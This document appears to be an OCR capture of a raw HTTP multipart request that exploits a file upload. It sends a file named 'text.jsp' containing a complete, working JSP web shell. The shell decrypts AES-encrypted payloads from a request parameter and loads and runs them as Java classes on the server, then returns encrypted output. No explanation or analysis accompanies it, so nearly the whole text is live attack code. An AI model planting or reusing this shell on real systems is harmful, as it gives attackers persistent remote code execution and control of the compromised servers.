 ```

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: JSESSIONID=16A0A80D40CD27E95082A76CD0BDE84A

Connection: close

 

------WebKitFormBoundaryEKdAQSnCqiCiMhL0

Content-Disposition: form-data; name="myfile"; filename="text.jsp"

Content-Type: application/octet-stream

 

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}

%>

 

------WebKitFormBoundaryEKdAQSnCqiCiMhL0--
```
